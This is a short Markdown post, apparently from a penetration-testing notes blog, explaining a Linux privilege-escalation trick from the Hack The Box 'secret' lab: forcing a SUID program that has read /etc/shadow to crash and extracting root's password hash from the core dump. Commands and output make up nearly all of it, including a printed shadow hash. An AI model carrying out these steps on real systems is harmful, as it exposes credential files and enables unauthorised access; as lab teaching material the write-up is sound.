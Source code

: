 ```yaml
---
layout: post
title: Core Dump Technique
description: Core Dump Technique
summary: Core Dump Technique
tags: [linux,privesc]
minute: 1
---
```

## Overview
Attacker can force crash a program to generate a coredump so he can read the buffered data (eg`/etc/shadow` ) inside.

## Environment
* Program has SUID bit set

```bash
-rwsr-xr-x 1 root root 17824 Oct  7 10:03 count*
```

* Program also forces core dump generation

```c
prctl(PR_SET_DUMPABLE, 1);
```

* `fs.suid_dumpable` is set to 2.

```bash
dasith@secret:/opt$ cat /proc/sys/fs/suid_dumpable
2
dasith@secret:/opt$ 
```

## Steps
* Run program and put a sensitive file and stop at another user input

```bash
dasith@secret:/opt$ ./count 
Enter source file/directory name: /etc/shadow

Total characters = 1187
Total words      = 36
Total lines      = 36
Save results a file? [y/N]: 
```

* Background the program

```bash
dasith@secret:/opt$ ./count 
Enter source file/directory name: /etc/shadow

Total characters = 1187
Total words      = 36
Total lines      = 36
Save results a file? [y/N]: ^Z
[1]+  Stopped                 ./count
dasith@secret:/opt$ 
```

* Send `SIGSEGV` signal. You can also use `kill -BUS PID`.

```bash
dasith@secret:/opt$ kill -SIGSEGV `pidof count`
```

* Resume the job and you will see core dump has been generated

```bash
dasith@secret:/opt$ fg
./count
Segmentation fault (core dumped)
dasith@secret:/opt$ ls -lrt /var/crash/
total 32
-rw-r----- 1 dasith dasith 28756 Dec 11 04:51 _opt_count.1000.crash
dasith@secret:/opt$ 
```

* To analyze the coredump, use `apport-unpack` and open `CoreDump` file

```bash
dasith@secret:/opt$ apport-unpack /var/crash/_opt_count.1000.crash /tmp/crash-report
dasith@secret:/opt$ strings /tmp/crash-report/CoreDump | grep root
root:$6$/0f5J.S8.u.dA78h$xSyDRhh5Zf18Ha9XNVo5dvPhxnI0i7D/uD8T5FcYgN1FYMQbvkZakMgjgm3bhtS6hgKWBcD/QJqPgQR6cycFj.:18873:0:99999:7:::
dasith@secret:/opt$ 
```

## References
* HTB secret
